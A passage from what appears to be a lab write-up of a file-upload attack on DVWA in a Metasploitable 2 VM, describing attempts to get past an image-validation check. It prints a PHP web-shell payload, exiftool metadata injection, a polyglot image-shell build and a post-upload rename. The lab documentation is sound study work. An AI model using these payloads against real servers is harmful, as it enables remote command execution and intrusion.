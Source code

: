         ![Verifying PHP file fail](./screenshots/file-upload-attack/verifying-upload-php-file-fail.jpg)


**Step 4**: Tried Several Fixes 

1. Making sure the image with injected PHP passes DVWA's `getimagesize()` check

2. Used `exiftool` (Stealth PHP Injection) to inject the PHP payload into the image metadata:
    ```bash
    exiftool -Comment='<?php system($_GET["cmd"]); ?>' harmless-image.jpg
    ```
    - This resulted in an error where PHP is trying to parse the entire JPEG image, starting at the binary image data — but it hits garbage again before reaching my PHP code.
    - Screenshot of failing to perform the PHP file with PHP payload in image metadata:

    ![Verifying PHP file fail 2](./screenshots/file-upload-attack/verifying-upload-php-file-fail2.jpg)

3. Creating a PHP file first to ensure the PHP code is at the very beginning of the file
    ```bash
    echo "<?php system(\$_GET['cmd']); ?>" > shell2.php.jpg
    ```
    - And then appending real image data to the end (so it passes `getimagesize()`):
        ```bash
        cat harmless-image2.jpg >> shell2.php.jpg
        ```

4. Renaming the file only after upload since I have `sudo` access to the Metasploitable 2 VM
    ```bash
    cd /var/www/dvwa/hackable/uploads/
    sudo mv shell2.php.jpg shell2.php
    ```
    - Screenshot of the renaming in Metasploitable:
    